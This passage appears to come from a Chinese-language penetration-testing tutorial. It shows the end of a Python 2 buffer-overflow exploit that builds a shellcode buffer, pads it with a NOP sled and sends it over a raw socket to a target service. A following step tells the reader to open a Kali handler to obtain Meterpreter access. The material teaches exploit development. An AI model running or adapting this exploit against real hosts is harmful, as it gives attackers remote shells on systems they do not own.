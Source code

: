 ```
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```

以下屏幕截图显示了前面命令的输出：

![](img/7a5ad769-7b63-423a-8e12-8068eeaf83ec.png)

30.  这次让我们在没有调试器的情况下运行它。我们将在 Kali 打开我们的处理程序，我们应该有 MeterMeter 访问权限：
